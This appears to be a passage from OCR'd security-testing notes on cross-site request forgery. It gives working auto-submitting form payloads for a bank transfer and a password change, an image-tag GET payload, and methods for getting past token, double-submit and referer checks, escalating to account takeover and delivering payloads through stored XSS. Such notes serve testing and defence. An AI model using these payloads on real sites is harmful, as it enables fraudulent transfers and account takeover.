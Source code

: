     <iframe style="display:none" name="csrf-frame"></iframe>
    <form method='POST' action='http://bank.com/transfer' target="csrf-frame" id="csrf-form">
      <input type='hidden' name='from' value='Bob'>
      <input type='hidden' name='to' value='Joe'>
      <input type='hidden' name='amount' value='500'>
      <input type='submit' value='submit'>
    </form>
    <script>document.getElementById("csrf-form").submit()</script>

Sending blank tokens is worth trying because sometimes validation only get called
when the token exist or isn't blank

3. Bypass Double-Submit CSRF Tokens
Here a CSRF is sent in the cookie and as a Request Header, the 
backend checks to see if that order (the same token in cookie and header) 
has been maintained else rejects the request.
Session fixation can help with spoofing the cookie value
https://en.wikipedia.org/wiki/Session_fixation

4. Bypass CSRF Referer Header Check
But how do you know if the server relies on referer header?
- Remove the referer header
```
<html>
  <meta name="referrer" content="no-referrer">
  <form method="POST" action="https://email.example.com/password_change" id="csrf-form">
    <input type="text" name="new_password" value="abc123">
    <input type='submit' value="Submit">
  </form>
  <script>document.getElementById("csrf-form").submit();</script>
</html>
```

5. Bypass CSRF Protection by Using XSS
XSS will allow attackers to steal the legitimate
CSRF token and then craft forged requests by using XMLHttpRequest

# Escalating the Attack
1. Leak User Information by Using CSRF
2. Create Stored Self-XSS by Using CSRF
3. Take Over User Accounts by Using CSRF
If a user signed up via their social media account, they don’t need
to provide an old password to set the new password, so if CSRF protection
fails on this endpoint, an attacker would have the ability to set a password for
anyone who signed up via their social media account and hasn’t yet done so.

# Delivering the CSRF Payload
1. Get users to click a link to a page
2. The page has an auto submitting form
3. For CSRFs that you could execute via a GET request, embed the request as an image directly
<img src="https://email.example.com/set_password?new_password=this_account_is_now_mine"/>
4. deliver a CSRF payload to a large audience by exploiting stored XSS
